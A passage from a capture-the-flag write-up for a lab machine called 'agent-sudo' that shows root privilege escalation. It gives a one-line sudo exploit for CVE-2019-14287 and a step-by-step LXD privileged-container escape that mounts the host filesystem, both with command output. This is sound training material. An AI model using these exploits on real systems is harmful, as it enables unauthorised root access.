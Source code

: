 The new credentials we have (james:hackerrules!) are for SSH, so we can log in to the box and at this point grab the first flag. Now it's time for the privesc. 

# Intended Method

The box was designed to allow for exploitation of CVE-2019-14287, a Sudo vulnerability. A description is found here [here](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287), but essentially if sudo is passed a User ID of “-1” or its unsigned number “4294967295”, the command will run as root. So the exploit is simply:
{% highlight shell %}
james@agent-sudo:~$sudo -u \#$((0xffffffff)) /bin/bash
{% endhighlight %}
At which point you have root privileges and it's game over.

# Alternative method

Running LinEnum.sh produces the following output:
*[+] We're a member of the (lxd) group - could possibly misuse these rights!
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)*

As it turns out, there is an LXD/LXC privesc that the box is also vulnerable to. You can read about it here: https://dominicbreuker.com/post/htb_calamity/, and here is the method in action:

{% highlight shell %}
james@agent-sudo:/dev/shm$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 8
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: no
Would you like to configure LXD to use an existing bridge or host interface? (yes/no) [default=no]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
james@agent-sudo:/dev/shm$ ls
alpine.tar.gz  LinEnum.sh
james@agent-sudo:/dev/shm$ lxc image import alpine.tar.gz  --alias yolo
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: 1b27aba42a2e301f676bc6ae4fe49aa345ddd3839f0a13b0361123acc38e8c38
james@agent-sudo:/dev/shm$ lxc init yolo yolo -c security.privileged=true
Creating yolo

The container you are starting doesn't have any network attached to it.
To create a new network, use: lxc network create
To attach a network to a container, use: lxc network attach

james@agent-sudo:/dev/shm$ lxc config device add yolo mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to yolo
james@agent-sudo:/dev/shm$ lxc start yolo
james@agent-sudo:/mnt$ lxc list
+------+---------+------+------+------------+-----------+
| NAME |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+------+---------+------+------+------------+-----------+
| yolo | RUNNING |      |      | PERSISTENT | 0         |
+------+---------+------+------+------------+-----------+
james@agent-sudo:/mnt$ id